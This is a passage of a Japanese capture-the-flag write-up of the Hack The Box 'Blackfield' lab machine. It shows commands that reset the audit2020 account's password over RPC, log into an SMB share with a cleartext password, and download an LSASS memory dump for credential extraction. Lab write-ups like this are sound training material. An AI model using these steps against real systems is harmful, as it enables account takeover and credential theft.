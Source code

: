 ```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ net rpc password audit2020 -U support -S 10.10.10.192
Enter new password for audit2020:
Password for [WORKGROUP\support]:
```
（コロンの次に入力した文字は表示されない）

audit2020のクリデンシャルでforensicというSMBシェアへアクセスする：

```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ smbclient -U 'audit2020%Passw0rd2020' //10.10.10.192/forensic
Try "help" to get a list of possible commands.
smb: \>
```

# initial shell

lsassに関するファイルがあったのでダウンロードする：

```
smb: \> dir
  .                                   D        0  Sun Feb 23 22:03:16 2020
  ..                                  D        0  Sun Feb 23 22:03:16 2020
  commands_output                     D        0  Mon Feb 24 03:14:37 2020
  memory_analysis                     D        0  Fri May 29 05:28:33 2020
  tools                               D        0  Sun Feb 23 22:39:08 2020
smb: \> cd memory_analysis\
smb: \memory_analysis\> dir
  .                                   D        0  Fri May 29 05:28:33 2020
  ..                                  D        0  Fri May 29 05:28:33 2020
  conhost.zip                         A 37876530  Fri May 29 05:25:36 2020
  ctfmon.zip                          A 24962333  Fri May 29 05:25:45 2020
  dfsrs.zip                           A 23993305  Fri May 29 05:25:54 2020
  dllhost.zip                         A 18366396  Fri May 29 05:26:04 2020
  ismserv.zip                         A  8810157  Fri May 29 05:26:13 2020
  lsass.zip                           A 41936098  Fri May 29 05:25:08 2020
  mmc.zip 
...
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (1884.9 KiloBytes/sec) (average 1345.9 KiloBytes/sec)
```

解凍するとlsass.DMPが得られた！！
```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ unzip lsass.zip
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192/Lsass]
└─$ ls             
lsass.DMP  lsass.zip
```
